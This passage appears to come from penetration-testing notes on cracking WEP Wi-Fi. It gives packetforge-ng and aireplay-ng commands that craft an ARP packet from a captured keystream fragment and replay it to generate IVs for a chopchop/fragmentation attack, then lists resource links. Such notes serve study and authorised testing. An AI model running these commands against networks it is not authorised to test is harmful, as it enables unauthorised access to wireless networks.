 //TO EXPLAIN packet creation

```bash
packetforge-ng --arp -a 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' -k 255.255.255.255 -l 255.255.255.255 -y $fragment_file -w crafted-packet
```

![](<./assets/Chopchop attack packet creation.png>){.rawimg}

packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](<./assets/Chopchop attack packet replay.png>){.rawimg}

> [!SUCCESS]
> In previous tests, combining a fragmentation attack with a chopchop attack resulted in high a number of received IVs per second (`#/s` column in `airodump-ng`) around 250. 

## Resources

[https://lesperance.io/](https://lesperance.io/)

[https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus](https://connect.ed-diamond.com/MISC/MISC-053/Cassage-de-WEP-hors-des-sentiers-battus)





